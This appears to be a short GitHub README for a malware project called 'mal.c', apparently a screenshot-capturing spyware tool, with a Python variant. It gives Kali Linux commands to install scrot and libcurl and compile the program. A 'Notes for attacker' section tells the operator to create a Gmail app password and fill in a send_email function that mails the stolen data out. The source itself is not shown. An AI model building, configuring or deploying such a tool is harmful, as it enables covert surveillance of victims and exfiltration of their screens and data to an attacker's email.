# C lang
```
┌──(kali㉿kali)-[~/Desktop/Task_1]
└─$ sudo apt install scrot
┌──(kali㉿kali)-[~/Desktop/Task_1]
└─$ sudo apt install libcurl4-openssl-dev
┌──(kali㉿kali)-[~/Desktop/Task_1]
└─$ gcc mal.c -o mal -lcurl -lpthread 
```
![image](https://github.com/user-attachments/assets/2a1781d4-b87d-4e38-87dd-812e68b3c1c2)

# Python lang
## How to use
```
┌──(kali㉿kali)-[~/Desktop/Task_1]
└─$ ./task_1.sh
```

## Notes for attacker
Your email must have two-step verification enabled in order to generate an app password before entering your email address

```python
def send_email():
    FROM_EMAIL = "your_mail@gmail.com"
    FROM_PASS = "your_app_password"
    TO_EMAIL = "your_mail@gmail.com"
```
![image](https://github.com/user-attachments/assets/4ccef6ac-dd83-48cf-aee6-07335c1668cd)
